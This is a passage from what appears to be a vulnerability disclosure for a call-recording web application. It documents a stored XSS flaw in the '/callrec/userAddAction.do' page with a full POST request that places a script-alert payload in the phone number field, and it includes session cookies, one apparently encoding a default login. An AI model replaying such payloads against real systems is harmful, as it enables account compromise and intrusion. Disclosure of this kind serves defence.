 ```
              <img src="images/icon-check.png" alt=""/>
***TRUNCATED***
```

![](Zoom-XSS(1).png)


### XSS(2) - Stored XSS in “/callrec/userAddAction.do” page

Request:
```
POST /callrec/userAddAction.do HTTP/1.1
Host: xxx.xxxxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxxxx.net/callrec/user_add.jsp?viewRoleId=8
Content-Type: application/x-www-form-urlencoded
Content-Length: 334
Cookie: JSESSIONID=DD8E62B3FC844E4EFAA01439E6194493; m=2258:Y2FsbHJlYzpjYWxscmVj
Connection: close
Upgrade-Insecure-Requests: 1

org.apache.struts.taglib.html.TOKEN=7e772bb6a1e21d529fe4fa86010b5b62&roleId=8&viewRoleId=8&dispatch=addUser&groupLdapUsers=&login2=TTTTTTTTTTTTTT&password2=Qwerty1234&passwordVerify=Qwerty1234&firstName=qqqqqqqqqqq&lastName=bbbbbbbbbb&email=&phoneNumber=<script>alert("XSSNumber")</script>&value%28filter_1%29=-1&value%28conj_1%29=END
```

